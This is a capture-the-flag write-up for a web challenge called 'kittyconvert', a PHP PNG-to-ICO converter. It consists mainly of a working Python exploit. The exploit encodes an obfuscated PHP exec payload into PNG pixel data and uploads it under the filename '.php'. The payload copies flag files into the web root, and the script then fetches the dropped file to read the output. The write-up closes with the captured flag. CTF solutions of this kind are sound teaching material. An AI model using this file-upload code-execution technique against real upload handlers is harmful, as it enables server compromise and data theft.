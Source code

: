 https://ctftime.org/event/2467

# kittyconvert (Web)
php converter png -> ico

## Solution
This challenge has two parts, a bug on the filename that allows us to upload a file called `.php` and how to write the actual payload to it.

```python
from PIL import Image
import requests

REMOTE = "https://ced03a4e-6413-4ee4-85b7-dcbbb5d5ddeb.x3c.tf:1337/"

def run():
    png = "new.png"
    width, height = 32, 32
    image = Image.new("RGBA", (width, height))

    # for c in range(256):
    payload = '<?php ex' + \
              'ec( ' + \
              '\'cat' + \
              ' /f*' + \
              ' >/v' + \
              'ar/"' + \
              'www"' + \
              '/ht"' + \
              '"ml"' + \
              '"/ab' + \
              '.php' + \
              '\' ) ' + \
              f';{chr(35)}  '

    final = ""
    idx = 0
    for i in range(int(len(payload)/4)):
        color = list(payload[idx:idx+4])
        idx += 4

        tmp = color[0]
        color[0] = color[2]
        color[2] = tmp
        color = "".join(color)

        final = final + ("AAAA" * 31)
        final = final + color


    final = final + "A" * (4096 - len(final))

    idx = 0
    for x in range(width):
        for y in range(height):
            color = tuple(ord(c) for c in final[idx:idx+4])
            idx += 4
            image.putpixel((x, y), color)
    
    image.save(png)

    res = requests.post(
       REMOTE,
       files={"file": (".php", open(png, "rb").read()), "submit": "Convert"},
    )
    res = requests.get(
       REMOTE + "/uploads/.php",
    )
    res = requests.get(
       REMOTE + "/ab.php",
    )
    print(f"DEBUGPRINT[17]: lab.py:58: res.text={res.text}")

image = run()
```

## Flag
`x3c{b1tm4p5_4r3_s1mpl3_6u7_7h3_4lph4_1s_w31rd}`

shafouz 2025/01/26

